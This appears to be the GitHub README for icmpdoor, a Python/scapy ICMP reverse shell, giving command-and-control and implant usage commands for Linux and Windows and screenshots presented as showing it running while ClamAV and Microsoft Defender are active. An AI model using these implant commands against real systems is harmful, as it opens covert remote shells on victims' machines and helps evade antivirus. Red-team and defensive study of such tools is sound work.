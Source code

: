 # icmpdoor - ICMP Reverse Shell
icmpdoor is an ICMP rev shell written in Python3 and scapy. Tested on Ubuntu 20.04, Debian 10 (Kali Linux), and Windows 10. 

[Read this blog post for more information.](https://cryptsus.com/blog/icmp-reverse-shell.html)

**Python version usage (both Windows and Linux):**
```bash
./icmp-cnc.py -i INTERFACE -d VICTIM-IP (Command and Control)
./icmpdoor.py -i INTERFACE -d CNC-IP (Implant)
```

**Binary Windows version usage version:**
```bash
./icmp-cnc.exe -d VICTIM-IP (Command and Control)
./icmpdoor.exe -d CNC-IP (Implant)
```

**Binary Linux version usage version:**
```bash
./icmp-cnc -d VICTIM-IP (Command and Control)
./icmpdoor -d CNC-IP (Implant)
```

**Parameters details:**
```bash
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Listener (virtual) Network Interface (e.g. eth0)
  -d DESTINATION_IP, --destination_ip DESTINATION_IP
                        Destination IP address
  exit                  Exit Command and Control (E2)
  ```
# Screenshots
Screenshot 1 and 2 shows how icmpdoor works on Ubuntu 20.04, Debian 10 (Kali Linux) and Windows 10. ClamAV is active on Ubuntu 20.04:
![screen1](https://cryptsus.com/blog/icmp-reverse-shell-linux.jpg)
Microsoft Defender Advanced Threat Protection (ATP) is active on the Windows 10 Enterprise machine:
![screen2](https://cryptsus.com/blog/icmp-reverse-shell-windows.jpg)

# License
Berkeley Software Distribution (BSD)

# Author
[Jeroen van Kessel](https://twitter.com/jeroenvkessel) | [cryptsus.com](https://cryptsus.com) - we craft cyber security solutions
